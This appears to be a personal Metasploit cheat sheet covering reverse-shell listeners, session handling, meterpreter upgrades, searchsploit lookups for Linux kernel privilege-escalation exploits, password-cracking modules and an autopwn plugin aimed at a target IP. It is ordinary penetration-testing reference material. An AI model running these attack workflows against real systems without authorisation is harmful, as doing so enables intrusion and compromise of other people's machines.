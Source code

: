 # msfconsole

                                       ___          ____
                                   ,-""   `.      < HONK >
                                 ,'  _   e )`-._ /  ----
                                /  ,' `-._<.===-'
                               /  /
                              /  ;
                  _          /   ;
     (`._    _.-"" ""--..__,'    |
     <_  `-""                     \
      <`-                          :
       (__   <__.                  ;
         `-.   '-.__.      _.'    /
            \      `-.__,-'    _,'
             `._    ,    /__,-'
                ""._\__,'< <____
                     | |  `----.`.
                     | |        \ `.
                     ; |___      \-``
                     \   --<
                      `.`.<
                        `-'

## create reverse listener

> helps to deal with latency

    use multi/handler
    set lport 6666
    exploit -j
    jobs

once pwn / connected:

    sessions -l
    sessions -i <id>

    # upgrade shell to meterpreter
    sessions -u <session_id>

    # kill all jobs
    jobs -k

## manual exploits using exploitdb

One may need to adapt something from the wild or simply use more than msf community has to offer:

    searchsploit privilege | grep -i linux | grep -i kernel | grep 3.13
    searchsploit <keyword1> <keyword2>

    # get full path (/usr/share/exploitdb/)
    searchsploit -p 33824
    locate linux/local/33824.c

## add custom exploit

**They have to be under exploits/ to be picked up:**

    /root/.msf4/modules/
    └── exploits
        └── myfolder
            └── myexploit.rb

Then, restart msfconsole & reload modules:

    msf6 > reload_all
    [*] Reloading modules from all module paths...

## msf db missing role

    msf5 > db_connect msfdb init
    [-] Error while running command db_connect: Failed to connect to the Postgres data service: FATAL:  role "<user>" does not exist

    sudo -u postgres createuser -s $(whoami); createdb $(whoami)

## missing gems

    $ sudo msfconsole
    Unable to find a spec satisfying metasploit-framework (>= 0) in the set. Perhaps the lockfile is corrupted?                                               Run `bundle install` to install missing gems.

    $ cd /usr/share/metasploit-frame
    $ sudo gem install bundler
    $ sudo bundle install
    $ sudo gem update --system

## passwords

    msf6 > search auxiliary/analyze

    Matching Modules
    ================

       #  Name                                      Disclosure Date  Rank    Check  Description
       -  ----                                      ---------------  ----    -----  -----------
       0  auxiliary/analyze/apply_pot                                normal  No     Apply Pot File To Hashes
       1  auxiliary/analyze/crack_aix                                normal  No     Password Cracker: AIX
       2  auxiliary/analyze/crack_databases                          normal  No     Password Cracker: Databases
       3  auxiliary/analyze/crack_linux                              normal  No     Password Cracker: Linux
       4  auxiliary/analyze/crack_mobile                             normal  No     Password Cracker: Mobile
       5  auxiliary/analyze/crack_osx                                normal  No     Password Cracker: OSX
       6  auxiliary/analyze/crack_webapps                            normal  No     Password Cracker: Webapps
       7  auxiliary/analyze/crack_windows                            normal  No     Password Cracker: Windows
       8  auxiliary/analyze/modbus_zip                               normal  No     Extract zip from Modbus communication
       9  auxiliary/scanner/oracle/oracle_hashdump                   normal  No     Oracle Password Hashdump

## automation

### autopwn

    wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db_autopwn.rb
    cp db_autopwn.rb /usr/share/metasploit-framework/plugins
    cp db_autopwn.rb /opt/metasploit-framework/plugins
    msfconsole
    load db_autopwn
    db_autopwn -p -R great -e -q <target-ip>
